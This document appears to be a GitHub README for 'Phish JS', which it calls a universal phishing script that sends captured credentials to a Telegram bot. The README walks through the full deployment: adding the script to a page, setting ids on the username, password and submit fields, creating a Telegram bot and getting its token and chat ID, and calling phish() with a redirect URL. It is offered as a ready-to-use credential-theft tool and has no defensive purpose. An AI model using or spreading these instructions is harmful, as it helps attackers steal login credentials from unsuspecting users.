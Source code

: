 <p align="center">
    <img src="https://i.postimg.cc/NG8KJWZ1/external-content-duckduckgo-com.png" alt="logo" width="154" height="154">
</p>

<h2 align="center">Phish JS</h2>

<p align="center">
     Universal phishing script + Telegram bot notification
</p>

[![https://t.me/xruin](https://img.shields.io/badge/sponsors-0-brightgreen)](https://t.me/xruin)
[![Privatium](https://img.shields.io/github/license/xbaysal11/privatium)](https://github.com/xbaysal11/phish-js)
[![Github](https://img.shields.io/github/followers/xbaysal11?style=social)](https://github.com/xbaysal11)
[![Privatium](https://img.shields.io/github/stars/xbaysal11/phish-js?style=social)](https://github.com/xbaysal11/phish-js)
[![https://t.me/xruin](https://img.shields.io/badge/%F0%9F%92%AC%20Telegram-xruin-blue.svg)](https://t.me/xruin)

---

# Documentation

## 1. Download files or clone
  - [Download files](https://github.com/xbaysal11/phish-js/archive/master.zip).

## 2. Put "phish.min.js" file to your project

## 3. Import "phish.min.js"
```
<script src="phish.min.js"></script>
```

## 4. Import "JQuery"
Via [CDN](https://code.jquery.com/)  is the quickest and easiest way to get JQuery on your website.

```
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>
```

## 5. Set ids to inputs and button

```
<input type="text" id='username'>
<input type="password" id='password'>

<button type="button" id='submit-button'>Login</button>
```

## 6. Get TOKEN and CHAT_ID

 - 1. Create bot with `@BotFather` and copy bot TOKEN
 - 2. Open your bot and type `/start` 
 - 3. Get chat id here:  `https://api.telegram.org/bot<TOKEN>/getUpdates`

## 7. Call function

```
<script>
    $(document).ready(function () {
        const BOT_TOKEN = 'your_bot_token',
            CHAT_ID = 'your_chat_id',
            REDIRECT_URL = 'default_redirect_url'
        phish(BOT_TOKEN, CHAT_ID, REDIRECT_URL);
    });
</script>
```
---

### SPONSORS [[Become a sponsor](https://t.me/xruin)]

[![https://t.me/xruin](https://img.shields.io/badge/sponsors-0-brightgreen)](https://t.me/xruin)

---

### LICENSE

Phish JS is [MIT licensed.](https://github.com/xbaysal11/phish-js/blob/master/LICENSE)
